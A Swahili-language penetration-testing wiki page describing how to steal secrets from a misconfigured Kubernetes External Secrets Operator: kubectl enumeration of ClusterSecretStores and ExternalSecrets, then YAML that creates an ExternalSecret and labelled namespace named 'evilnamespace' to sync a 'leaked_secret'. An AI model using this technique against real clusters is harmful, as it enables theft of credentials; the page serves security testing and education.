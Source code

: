 # External Secret Operator

**Mwandishi wa awali wa ukurasa huu ni** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ukurasa huu unatoa vidokezo juu ya jinsi unavyoweza kufanikisha wizi wa siri kutoka kwa ESO isiyo na usanidi mzuri au programu inayotumia ESO kusawazisha siri zake.

## Disclaimer

Mbinu iliyoonyeshwa hapa chini inaweza kufanya kazi tu wakati hali fulani zinakutana. Kwa mfano, inategemea mahitaji yanayohitajika kuruhusu siri kusawazishwa kwenye namespace ambayo unamiliki / umevamia. Unahitaji kujifunza mwenyewe.

## Prerequisites

1. Kuwepo katika klasta ya kubernetes / openshift yenye haki za admin kwenye namespace
2. Ufikiaji wa kusoma angalau ExternalSecret katika ngazi ya klasta
3. Jifunze kama kuna lebo / maelezo au uanachama wa kundi wowote unaohitajika ambao unaruhusu ESO kusawazisha siri yako. Ikiwa una bahati, unaweza kuiba kwa urahisi siri yoyote iliyofafanuliwa.

### Gathering information about existing ClusterSecretStore

Kukisia kwamba una watumiaji ambao wana haki za kutosha kusoma rasilimali hii; anza kwa kwanza kuorodhesha _**ClusterSecretStores**_ zilizopo.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Tuchukulie kuwa umepata ClusterSecretStore inayoitwa _**mystore**_. Endelea kwa kuhesabu externalsecret zake zinazohusiana.
```sh
kubectl get externalsecret -A | grep mystore
```
_Rasilimali hii ina upeo wa namespace hivyo isipokuwa unajua tayari ni namespace ipi ya kutafuta, ongeza chaguo -A kutafuta katika namespaces zote._

Unapaswa kupata orodha ya externalsecret zilizofafanuliwa. Tuone umebaini kitu cha externalsecret kinachoitwa _**mysecret**_ kilichofafanuliwa na kutumiwa na namespace _**mynamespace**_. Kusanya taarifa zaidi kuhusu ni aina gani ya siri inayoishikilia.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Kuunganisha vipande

Kutoka hapa unaweza kupata jina la siri moja au nyingi (kama ilivyoainishwa katika rasilimali ya Siri). Utapata matokeo yanayofanana na:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hadi sasa tumepata:

- Jina la ClusterSecretStore
- Jina la ExternalSecret
- Jina la siri

Sasa kwamba tuna kila kitu tunachohitaji, unaweza kuunda ExternalSecret (na hatimaye kuboresha/kuunda Namespace mpya ili kuzingatia mahitaji yanayohitajika ili kupata siri yako mpya iunganishwe):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Baada ya dakika chache, ikiwa masharti ya usawazishaji yalitimia, unapaswa kuwa na uwezo wa kuona siri iliyovuja ndani ya nafasi yako.
```sh
kubectl get secret leaked_secret -o yaml
```
## Marejeleo

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
